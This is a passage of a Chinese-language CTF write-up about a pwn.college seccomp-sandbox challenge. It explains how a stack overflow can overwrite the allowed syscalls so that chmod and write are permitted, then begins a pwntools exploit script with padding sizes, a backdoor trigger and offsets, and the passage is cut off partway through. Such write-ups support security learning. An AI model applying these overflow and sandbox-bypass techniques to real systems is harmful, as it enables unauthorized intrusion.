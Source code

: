 所以我们有两个可用的系统调用可以发挥（怎么发挥？栈溢出过去覆盖成自己的～），这里还是选择 `chmod`，允许了 `chmod` 后还需要允许 `write` 才可以成功执行 `chmod`，我猜应该是因为 `chmod` 会去修改 `inode` 中保存的权限信息，而修改它需要 `write` 系统调用，所以使用 `chmod` 的话我们必须同时允许 `write` 才行。

需要注意的就是必须先允许主要系统调用，再允许其内部依赖的系统调用，否则 seccomp 会直接阻止主要调用。

## Exploit

```python
#!/usr/bin/python3

from pwn import (
    ELF,
    asm,
    context,
    gdb,
    log,
    os,
    p32,
    p64,
    process,
    remote,
    shellcraft,
)

context(log_level="debug", terminal="kitty")

FILE = "./toddlerone-level-6-0"
HOST, PORT = "localhost", 1337

gdbscript = """
c
"""

backdoor = b"REPEAT "
padding_size = 0x88
backdoor_trigger = b"".ljust(padding_size - len(backdoor) + 1, b"A") + backdoor
trigger_length = str(len(backdoor_trigger))
allowed_syscall_offset = 0x74
padding_to_ret = b"".ljust(0x18, b"A")
fixed_offset = 0x11E0


def to_hex_bytes(data):
    return "".join(f"\\x{byte:02x}" for byte in data)


def launch(local=True, debug=False, aslr=False, argv=None, envp=None):
    if local:
        elf = ELF(FILE)
        context.binary = elf

        if debug:
            return gdb.debug(
                [elf.path] + (argv or []), gdbscript=gdbscript, aslr=aslr, env=envp
            )
        else:
            return process([elf.path] + (argv or []), env=envp)
    else:
        return remote(HOST, PORT)


def send_payload(target, payload):
    try:
        target.send(payload)
```